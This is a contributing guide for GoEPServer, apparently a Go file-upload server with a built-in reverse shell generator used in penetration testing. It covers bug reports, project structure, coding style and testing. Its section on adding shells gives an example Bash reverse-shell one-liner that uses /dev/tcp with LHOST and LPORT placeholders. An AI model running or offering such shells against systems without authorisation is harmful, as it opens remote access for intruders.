 # Contributing to GoEPServer

Thank you for your interest in contributing to GoEPServer! This document provides guidelines for contributing to the project.

## How to Contribute

### Reporting Bugs

Before creating bug reports, please check the existing issues to avoid duplicates. When creating a bug report, please include:

- **Description**: A clear and concise description of the bug
- **Steps to Reproduce**: Step-by-step instructions to reproduce the issue
- **Expected Behavior**: What you expected to happen
- **Actual Behavior**: What actually happened
- **Environment**: OS, Go version, browser (if applicable)
- **Screenshots**: If applicable, add screenshots to help explain the problem

### Suggesting Enhancements

Enhancement suggestions are welcome! Please include:

- **Description**: A clear and concise description of the enhancement
- **Use Case**: Explain why this enhancement would be useful
- **Implementation**: If you have ideas on how to implement it

### Pull Requests

1. **Fork the repository** and create your branch from `main`
2. **Make your changes** following the coding guidelines below
3. **Test your changes** thoroughly
4. **Update documentation** if needed
5. **Create a pull request** with a clear title and description

## Development Setup

### Prerequisites

- Go 1.21 or higher
- Git

### Getting Started

```bash
# Clone your fork
git clone https://github.com/your-username/goepserver.git
cd goepserver

# Build the project
./build.sh

# Run the server
./goepserver
```

### Project Structure

```
goepserver/
├── cmd/goepserver/          # Application entry point
├── internal/                # Internal packages
│   ├── assets/             # Embedded web assets
│   ├── config/             # Configuration
│   ├── server/             # HTTP server
│   ├── models/             # Data models
│   └── utils/              # Utilities
├── web/                    # Web assets
│   ├── templates/          # HTML templates
│   └── static/             # CSS, JS, images
└── build.sh                # Build script
```

## Coding Guidelines

### Go Code

- Follow the [Go Code Review Comments](https://github.com/golang/go/wiki/CodeReviewComments)
- Use `go fmt` to format your code
- Use `go vet` to check for common errors
- Add comments for exported functions and types
- Write tests for new functionality

### JavaScript Code

- Use modern JavaScript (ES6+) features
- Follow consistent indentation (2 spaces)
- Use meaningful variable names
- Add comments for complex logic
- Test in multiple browsers

### CSS Code

- Use CSS custom properties (variables) for themes
- Follow BEM methodology when possible
- Use modern CSS features (Grid, Flexbox)
- Ensure responsive design
- Test in both light and dark themes

### HTML Templates

- Use semantic HTML elements
- Ensure accessibility compliance
- Follow consistent indentation
- Use Go template syntax properly

## Adding New Features

### Adding New Reverse Shells

1. **Edit the shell data**: Update `web/static/js/reverse-shell.js`
2. **Add to the appropriate category**: reverse, bind, msfvenom, or hoaxshell
3. **Include proper metadata**: name, command, description, os, type
4. **Test the shell**: Ensure it works as expected

Example shell entry:
```javascript
{
    name: "Bash TCP",
    command: "bash -i >& /dev/tcp/LHOST/LPORT 0>&1",
    description: "Standard bash reverse shell",
    os: ["linux", "macos"],
    type: "bash"
}
```

### Adding New Server Features

1. **Create handlers**: Add new HTTP handlers in `internal/server/`
2. **Add routes**: Update the router in `setupRoutes()`
3. **Add templates**: Create HTML templates in `web/templates/`
4. **Add styles**: Update CSS in `web/static/css/`
5. **Add JavaScript**: Update or create JS files in `web/static/js/`

## Testing

### Manual Testing

1. **Build the project**: `./build.sh`
2. **Run the server**: `./goepserver`
3. **Test web interface**: Open `http://localhost:8080`
4. **Test file upload**: Upload files via web and CLI
5. **Test reverse shell generator**: Generate and copy various shells
6. **Test themes**: Switch between light and dark modes
7. **Test responsiveness**: Check mobile and desktop layouts

### Cross-Platform Testing

Use the cross-platform build script:

```bash
./build-cross-platform.sh
```

Test binaries on different platforms if possible.

## Documentation

- Update the README.md if you add new features
- Add inline code comments for complex logic
- Update the CHANGELOG.md for significant changes
- Create or update documentation for new APIs

## Commit Messages

Use clear and descriptive commit messages:

- `feat: add new reverse shell category`
- `fix: resolve upload issue on Windows`
- `docs: update README with new features`
- `style: improve dark theme colors`
- `refactor: simplify template rendering`

## Review Process

1. **Automated checks**: PRs will be checked for build success
2. **Code review**: Maintainers will review your code
3. **Testing**: New features should be tested
4. **Documentation**: Ensure docs are updated
5. **Merge**: Once approved, your PR will be merged

## Questions?

If you have questions about contributing, please:

1. Check the existing issues and discussions
2. Create a new issue with the "question" label
3. Reach out to the maintainers

Thank you for contributing to GoEPServer! 🚀
